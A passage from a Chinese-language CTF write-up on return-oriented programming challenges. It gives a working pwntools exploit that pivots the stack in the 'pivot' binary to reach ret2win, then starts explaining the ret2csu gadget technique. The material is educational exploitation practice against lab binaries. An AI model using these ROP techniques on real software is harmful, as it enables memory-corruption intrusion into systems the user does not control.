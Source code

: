 payload:

```python
from pwn import *
context.log_level = 'debug'

io = process('./pivot')
elf = ELF('./pivot')
lib = ELF('./libpivot.so')

rax = 0x4009bb
rsp = 0x4009bd
rax_addr = 0x4009c0
add_rax = 0x4009c4
jmp_rax = 0x4007c1
main_addr = 0x400847

io.recvuntil(b'place to pivot: 0x')
fake_stack = int(io.recv(12).decode(), 16)

# ROP chain in fake stack
payload = p64(elf.plt['foothold_function'])		# call foothold_function() first so that the .got section can be rewritten into real address of this function
payload += p64(rax) + p64(elf.got['foothold_function'])	# get rax to the address of .got
payload += p64(rax_addr)		# read the address to rax
payload += p64(add_rax)
payload += p64(jmp_rax)
io.sendlineafter(b'> ', payload)

# ROP chain in stack
payload = cyclic(32)	# 0x20
payload += p64(lib.symbols['ret2win'] - lib.symbols['foothold_function'])	# value that needed to be added to rax later
payload += p64(rax) + p64(fake_stack)	# pop fake stack address to rax
payload += p64(rsp)						# exchange rax and rsp, the length of first ROP comes to the limit: 0x40
io.sendlineafter(b'> ', payload)

io.interactive()
```

# 8. ret2csu

这是一种利用__libc_csu_init函数构造ROP的攻击方式。在本题中，由于是64位程序，因此在有些细节方面可能不好把握。

![](1.png)

本题有后门函数ret2win，但是要想拿到shell首先需要传入正确的参数，即第7行的3个参数。

ret2csu的攻击流程大致如下：

首先将返回地址改到ret2csu函数的这个地方：
![](2.png)
在这里我们可以控制一系列寄存器的值。如果我们使用ROPgadget查找还能够发现惊喜。
![](3.png)
注意到上面的pop rdi; ret了吗？它实际上是将原来的pop r15指令拆掉了，其机器码正好是5F，上面的pop rsi, ret同理。因此在这里我们可以控制的寄存器有：rbx,rbp,r12,r13,r14,r15,rdi,rsi，其中rdi,rsi是作为函数的前两个参数传递的，因此我们可以正确地传入前两个参数。
